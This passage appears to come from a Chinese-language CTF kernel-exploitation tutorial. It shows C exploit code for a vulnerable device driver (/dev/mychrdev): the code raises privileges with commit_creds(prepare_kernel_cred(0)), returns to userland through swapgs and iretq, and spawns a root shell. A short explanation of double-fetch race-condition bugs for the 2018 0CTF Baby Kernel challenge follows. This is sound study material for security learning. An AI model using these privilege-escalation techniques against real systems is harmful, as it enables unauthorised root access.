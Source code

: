 ```c
void shell1()
{
	system("/bin/sh");
	exit(0);
}

int get()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}


int main()
{
	int buf[1000];
	save_stat();
	printf("[+]open drive\n");
	int fd = open("/dev/mychrdev",0);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
	ioctl(fd,0x1111,buf);
	printf("%s",buf);

	return 0;
}
```





## 2018 0CTF Finals Baby Kernel

### Double Fetch漏洞原理

Double Fetch漏洞属于条件竞争漏洞，一个用户态线程准备的数据通过系统调用进入内核，进入内核的时候进行安全检查（比如缓冲区大小、指针可用性等），当检查通过后进行实际处理之前，另一个用户态线程可以创造条件竞争，对那个已经将通过了检查的用户态数据进行篡改，使得数据在真实使用时造成访问越界或缓冲区溢出，最终导致内核崩溃或权限提升
